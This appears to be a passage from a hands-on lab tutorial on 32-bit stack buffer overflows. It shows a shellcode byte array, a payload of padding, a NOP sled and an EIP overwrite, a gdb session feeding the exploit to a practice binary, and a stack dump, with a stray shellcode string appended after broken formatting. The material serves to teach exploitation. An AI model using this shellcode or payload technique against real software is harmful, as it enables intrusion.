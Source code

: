   Shellcode

```shell-session
gdxqpardo@htb[/htb]$ cat shellcode

unsigned char buf[] = 
"\xda\xca\xba\xe4\x11\xd4\x5d\xd9\x74\x24\xf4\x58\x29\xc9\xb1"
"\x12\x31\x50\x17\x03\x50\x17\x83\x24\x15\x36\xa8\x95\xcd\x41"
"\xb0\x86\xb2\xfe\x5d\x2a\xbc\xe0\x12\x4c\x73\x62\xc1\xc9\x3b"
<SNIP>
```
Now that we have our shellcode, we adjust it to have only one string, and then we can adapt and submit our simple exploit again.

#### Notes

  Notes

```shell-session
   Buffer = "\x55" * (1040 - 124 - 95 - 4) = 817
     NOPs = "\x90" * 124
Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
      EIP = "\x66" * 4'
```

#### Exploit with Shellcode

  Exploit with Shellcode

```shell-session
(gdb) run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')

Breakpoint 1, 0x56555551 in bowfunc ()
```

Next, we check if the first bytes of our shellcode match the bytes after the NOPS.

#### The Stack

  The Stack

```shell-session
(gdb) x/2000xb $esp+550

<SNIP>
0xffffd64c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd654:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd65c:	0x90	0x90	0xda	0xca	0xba	0xe4	0x11	0xd4
						 # |----> Shellcode begins
<SNIP>
```"\xba\xca\x8b\x27\xfa\xdb\xd0\xd9\x74\x24\xf4\x58\x31\xc9\xb1\x12\x83\xe8\xfc\x31\x50\x0e\x03\x9a\x85\xc5\x0f\x2b\x41\xfe\x13\x18\x36\x52\xbe\x9c\x31\xb5\x8e\xc6\x8c\xb6\x7c\x5f\xbf\x88\x4f\xdf\xf6\x8f\xb6\xb7\x02\x7a\x46\x44\x7b\x78\x58\x51\x42\xf5\xb9\xd5\xd2\x55\x6b\x46\xa8\x55\x02\x89\x03\xd9\x46\x21\xf2\xf5\x15\xd9\x62\x25\xf5\x7b\x1a\xb0\xea\x29\x8f\x4b\x0d\x7d\x24\x81\x4e"








```